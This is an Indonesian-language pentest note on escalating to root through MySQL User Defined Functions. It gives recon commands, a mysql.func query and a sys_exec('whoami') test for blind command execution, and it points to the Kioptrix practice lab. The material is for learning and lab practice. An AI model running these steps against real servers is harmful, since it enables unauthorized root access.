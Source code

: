 # Privilege Escalation Via UDF Functions MySQL
Pada MySQL, user bisa membuat custom functions. Hal ini dinamakan User Defined Function. Hal yang bisa jadi berbahaya adalah ketika UDF library dijalankan dengan akses root karena bisa menjadi celah priv esc

## Recon
Jika kita menemukan mysql dijalankan dengan root. Maka ada kemungkinan kita bisa melakukan priv esc bilamana terdapat UDF Function. Cara ceknya 
```
ps -ef | grep mysql
```

Lalu cek library udf
```
$ locate udf
/usr/lib/lib_mysqludf_sys.so
```

Pastikan file library `lib_mysqludf_sys.so`  memiliki permission root
Jika mendapatkan username dan password mysql, coba cek `mysql.func`
```
SELECT * FROM mysql.func
```

Misalnya ada function dengan nama `sys_exec` maka kita tes dengan cara 
```
select sys_exec
```
Jika hasilnya NULL seperti ini 
```
mysql> select sys_exec('whoami');
+--------------------+
| sys_exec('whoami') |
+--------------------+
| NULL               | 
+--------------------+
1 row in set (0.00 sec)

```
Maka sudah bisa dipastikan ada Blind RCE, namun jika error ada dua kemungkinan. 
1. Fuction membutuhkan parameter
2. Parameter yang dimasukkan salah

## Buat Exploit dari Awal
Jika UDF tersedia namun pada `mysql.func` gak ada, maka kita harus compile sendiri. Lebih jelasnya di https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf 

## Latihan
Kioptrix level 4 https://www.vulnhub.com/entry/kioptrix-level-13-4,25/